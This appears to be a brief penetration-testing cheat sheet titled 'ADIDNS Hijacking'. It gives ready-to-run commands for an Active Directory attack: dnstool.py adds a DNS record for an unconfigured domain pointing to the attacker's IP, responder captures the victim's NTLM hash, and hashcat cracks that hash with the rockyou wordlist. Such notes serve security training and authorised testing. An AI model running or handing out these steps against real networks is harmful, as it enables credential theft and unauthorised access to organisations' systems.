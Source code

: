# ADIDNS Hijacking

### Tools: dnstool.py, responder

## Requirements:

### A victim tries to connect to a domain that is NOT CONFIGURED. Which means that we can make the domain point to OUR IP address instead.

 - python3 dnstool.py -u DOMAIN.LOCAL\\USER.NAME -p 'PASS' DOMAIN.LOCAL -r HIJACKED.DOMAIN.LOCAL -a add -d TARGET_IP -dns-ip OUR_IP

 - sudo responder -I tun0 (Capture NTLM Hash of victim)

 - hashcat -m 5600 -a 0 ntlmhash.txt /usr/share/wordlist/rockyou.txt (Crack hash)
